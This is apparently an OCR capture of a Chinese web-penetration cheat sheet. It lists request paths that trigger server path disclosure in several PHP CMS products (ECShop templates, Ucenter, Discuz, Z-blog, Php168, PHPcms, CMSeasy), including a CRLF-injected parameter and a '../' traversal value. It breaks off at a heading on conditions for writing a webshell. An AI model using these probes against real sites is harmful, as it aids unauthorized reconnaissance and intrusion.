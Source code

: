```
/temp/compiled/goods_related.lbi.php
/temp/compiled/page_header.lbi.php
/temp/compiled/goods_script.html.php
/temp/compiled/index.dwt.php
/temp/compiled/goods_fittings.lbi.php
/temp/compiled/myship.dwt.php
/temp/compiled/brands.lbi.php
/temp/compiled/help.lbi.php
/temp/compiled/goods_gallery.lbi.php
/temp/compiled/comments.lbi.php
/temp/compiled/myship.lbi.php
/includes/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php
/includes/modules/cron/auto_manage.php
/includes/modules/cron/ipdel.php
```

#### Ucenter爆路径

`/ucenter/control/admin/db.php`

#### DZbbs

`/manyou/admincp.php?my_suffix=%0A%0DTOBY57`

#### Z-blog

`/admin/FCKeditor/editor/dialog/fck%5Fspellerpages/spellerpages/server%2Dscripts/spellchecker.php`

#### Php168爆路径

````
/admin/inc/hack/count.php?job=list
/admin/inc/hack/search.php?job=getcode
/admin/inc/ajax/bencandy.php?job=do
/cache/MysqlTime.txt
````

PHPcms2008-sp4
注册用户登陆后访问
`/phpcms/corpandresize/process.php?pic=../images/logo.gif`

#### CMSeasy爆网站路径漏洞

漏洞出现在menu_top.php这个文件中

```
/lib/mods/celive/menu_top.php
/lib/default/ballot_act.php
/lib/default/special_act.php
```

## 写入shell方法
### 写入条件
**导出WebShell主要条件：**
